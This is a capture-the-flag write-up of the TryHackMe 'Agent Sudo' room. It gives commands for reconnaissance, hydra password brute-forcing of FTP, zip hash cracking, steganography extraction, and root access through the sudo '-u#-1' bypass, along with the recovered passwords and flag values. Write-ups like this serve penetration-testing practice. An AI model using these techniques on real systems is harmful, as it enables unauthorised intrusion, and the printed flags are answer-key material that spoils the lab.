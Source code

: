 # Matheus Jesus 10-05-2020

## Try Hack Me - [Agent Sudo](https://tryhackme.com/room/agentsudoctf)

### IP 10.10.253.47

### Recon

```sh
nmap -sC -sV -oN nmap 10.10.253.47
# 21 ftp
# 22 ssh
# 80 http server
```

### Agent C

Open the $IP on browser

There is a message from Agent R
`Use your own <b>codename</b> as user-agent to access the site.`

```sh
curl "http://10.10.253.47" -H "User-Agent: C" -L
#Attention chris
#Do you still remember our deal?
#Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
```

### Brute Forcing

On FTP, try guessing chris password, since it is weak

```sh
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.253.47:21
# [21][ftp] host: 10.10.253.47   login: chris   password: crystal
```

Access ftp through chris:crystal

```sh
ftp 10.10.253.47
chris
crystal
# get files.

# All these alien like photos are fake! Agent R stored the real picture inside your directory.
# Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.
```

### Stego

```sh
binwalk -e cutie.png
#ZIP folder hidden -> it has a password

# Cracking ZIP Password
/usr/sbin/zip2john 8702.zip > zip_for_john.txt
/usr/sbin/john zip_for_john.txt --wordlist=/usr/share/wordlists/rockyou.txt
# alien            (8702.zip/To_agentR.txt)
```

Open ZIP

```text
Agent C,
We need to send the picture to 'QXJlYTUx' as soon as possible!
By,
Agent R
```

```sh
echo QXJlYTUx | base64 -d
#Area51
steghide extract -p Area51 -sf cute-alien.jpg -v -xf msg_cute-alien.txt
# Hi james,
# Glad you find this message. Your login password is hackerrules!
# Don't ask me why the password look cheesy, ask agent R who set this password for you.
# Your buddy,
# chris
```

### SSH Access

`james:hackerrules!`

```sh
cat user_flag.txt
# b03d975e8c92a7c04146cfa7a5a313c7
scp james@10.10.253.47:/home/james/Alien_autospy.jpg /home/matheus/projects/tryhackme/TryHackMe/agent_sudo/Alient_autopsy.jpg
```

Search image on google -> Roswell Alien Autopsy

### Privesc

```sh
scp /opt/linPEAR/linpeas.sh james@10.10.253.47:/dev/shm

sudo -l
# (ALL, !root) /bin/bash

sudo -u#-1 /bin/bash
#ROOT

cat /root/root.txt
# b53a02f55b57d4439e3341834d70c062
```
